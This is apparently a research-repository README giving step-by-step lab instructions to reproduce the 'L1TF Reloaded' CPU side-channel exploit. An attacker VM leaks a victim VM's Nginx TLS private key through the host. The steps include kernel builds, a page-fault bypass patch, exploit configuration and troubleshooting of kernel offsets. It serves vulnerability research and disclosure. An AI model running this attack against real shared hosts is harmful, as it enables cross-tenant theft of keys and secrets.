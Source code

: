 Skylake Server
==============

We assume you have access to a Skylake server running Ubuntu 24.04.

You can for example get access to such a machine via the Chameleon Cloud:
https://chameleoncloud.readthedocs.io/en/latest/getting-started/


Install the required packages on the server:
```
sudo apt-get update
sudo apt install -y locales-all fakeroot git kernel-wedge quilt ccache flex bison libssl-dev dh-exec rsync libelf-dev bc libncurses-dev lz4 liblz4-dev tmux cmake libgmp3-dev debootstrap
```
And clone our repo:
```
git clone git@github.com:vusec/rain.git ~/rain
```

Host Kernel
===========

We start by preparing the host kernel.
```
mkdir ~/host; cd ~/host
```
Get Linux kernel v6.12 source code:
```
git clone --branch v6.12 --depth=1 https://github.com/torvalds/linux.git
```
Take your current Ubuntu 24.04 kernel config, and disable kernel signature checking:
```
cd linux
cp /boot/config-6.8.0-64-generic .config
scripts/config -d CONFIG_SYSTEM_REVOCATION_KEYS -d CONFIG_SYSTEM_TRUSTED_KEYS
make olddefconfig
```
Optionally, if you want to add "helper hypercalls", useful for debugging and
exploit development, add them to the host kernel now. For example, apply the
patch `setup/helper-hc.patch`. This would allow you to use `HELPERS=1` and
`LEAK=CHEAT` in `include/config.h`, to run the exploit without L1TF leakage, but
with hypercall-reads instead, as a sanity check.
Then build the kernel:
```
make bindeb-pkg -j`nproc`
```
Install the new kernel:
```
sudo dpkg -i *6.12*.deb
```
And reboot into it:
```
sudo reboot
```
After reboot, ensure Linux-6.12.0 is running:
```
uname -r
```
Also check that you have the default Ubuntu L1TF mitigations, namely SMT on and
conditional L1D flushing:
```
lscpu | grep -i l1tf
```

Victim VM
=========

Let's create the victim VM. As its kernel we take the same, 6.12 kernel we build
for the host. We make the disk 32 GB and put a default (latest stable) Debian
installation on it (which was "Trixie" at time of writing).
```
mkdir ~/victim; cd ~/victim
~/rain/setup/bootstrap-vm.sh --name victim --size 32 --kernel ~/host/linux
```
Boot the victim VM on two siblings of one physical core (CPU 0's):
```
./run-vm.sh victim 7777 `cat /sys/devices/system/cpu/cpu0/topology/thread_siblings_list`
```
Wait a few seconds for the VM to boot up, and then copy over this install script:
```
scp ~/rain/setup/install_nginx_https.sh victim:~
```
Login to the victim VM:
```
ssh victim
```
And install Nginx, generate a self-signed TLS certificate, and configure Nginx
to HTTPS:
```
./install_nginx_https.sh
``` 
Take a look at Nginx's private key of its TLS certificate:
```
sudo cat /etc/ssl/private/nginx-selfsigned.key
```
If all goes well, our attacker VM should leak this key from Nginx's memory.
Exit the victim VM, to go back to the host:
```
exit
```

Attacker VM
===========

For the attacker VM's kernel, we reuse the same linux kernel tree, and we'll
install a page fault handler bypass:
```
cd ~/host/linux
git apply ~/rain/setup/l1tf-pf.patch
```
Next, we bootstrap the attack VM:
```
mkdir ~/attacker; cd ~/attacker
cp ~/rain/setup/*-vm.sh .
./bootstrap-vm.sh --name attacker --size 32 --kernel ~/host/linux
```
Boot the attacker VM on two siblings of another physical core (CPU 1's) than the victim:
```
./run-vm.sh attacker 7778 `cat /sys/devices/system/cpu/cpu1/topology/thread_siblings_list`
```
Check that indeed the attacker and victim run on separate physical cores, as is
enforced by the core-scheduling mitigation:
```
taskset -c -p `sudo cat ~/victim/victim.pid`
taskset -c -p `sudo cat ~/attacker/attacker.pid`
```

Exploit: L1TF Reloaded
======================

SSH into the attack VM:
```
ssh attacker
```
And clone the exploit code:
```
git clone git@github.com:vusec/rain.git
cd rain
```
Load the required dependencies and install the needed kernel modules:
```
make load_modules
```
Ensure `include/config.h` holds the following configuration:
```
#define MACHINE LINUX_6_12
#define HELPERS 0
#define LEAK L1TF
```
Note: if you want a sanity check first, and you have installed helper hypercalls
in the host kernel, then you can also first put `HELPERS` to 1 and `LEAK` to
`CHEAT`.
In `include/constants.h`, ensure this line defines the correct amount of host
physical memory on your system (check with `free -h` on the host).
```
#define HOST_MEMORY_SIZE (192 * 1024ULL*1024*1024)
```

Build the exploit:
```
make exploit
```

Run the exploit:
```
make
```

This can take hours, hence we recommend running this inside a tmux session or similar.
Output of `stdout` will go to the screen as well as the file `std.out`, and extra
verbose `stderr` output is saved in the file `std.err`.

If all goes well, you expect to see something similar to our demo, resulting in a leaked private key.
To check its correctness, compare it against the true key of the victim's Nginx webserver,
located at `victim:/etc/ssl/private/nginx-selfsigned.key`.

Troubleshooting
===============

### The exploit gets stuck at the very first step: leaking the gadget base

Ensure the attacker VM is running its two vCPUs on two sibling hyperthreads of
the same physical core.

Also check whether `H_MAP_PHYS_MAP` is correct, see below how.

### The exploit gets stuck at some later point

Check the `std.out` and `std.err` files to see where the exploit got stuck.

One reason might be: the host swapped out the victim VM's memory, and therefore
it's unable to leak it. This is the case if the exploit gets stuck during a
two-dimensional page table walk, at the EPT stage: you'll for example see an
EPT-PTE (lowest level page table entry) being zero.
The fix for this is to force the page back into memory, by letting the victim
VM touch it. For example, try to access the webserver
```
wget -O /dev/stdout --no-check-certificate https://localhost:443
```
from within the victim, to let it access its data (and let the host page it in).

Another reason might be that the offsets in `include/reverse.h` are incorrect.
This should not happen if you followed the setup instruction above very carefully,
but if something might break in the future: ensure that all those constants are
correct. Probably look in particular at the constant(s) being used during/just
before the exploit gets stuck, and verify that they match reality. For example,
to check the correct value of `G_TASK_PARENT`, go to `~/host/linux` on the host
and attach GDB to the kernel image (including debug symbols):
```
gdb vmlinux
```
Print the offset of the `parent` member within a `task_struct`:
```
p &(((struct task_struct *)0)->parent)
```
This is what `G_TASK_PARENT` should be equal to. Repeat for other problematic
structs. Note: in general offsets in the host and victim guest kernel may differ,
therefore the exploit defines both `H_*` (host) and `G_*` (victim guest) offsets.
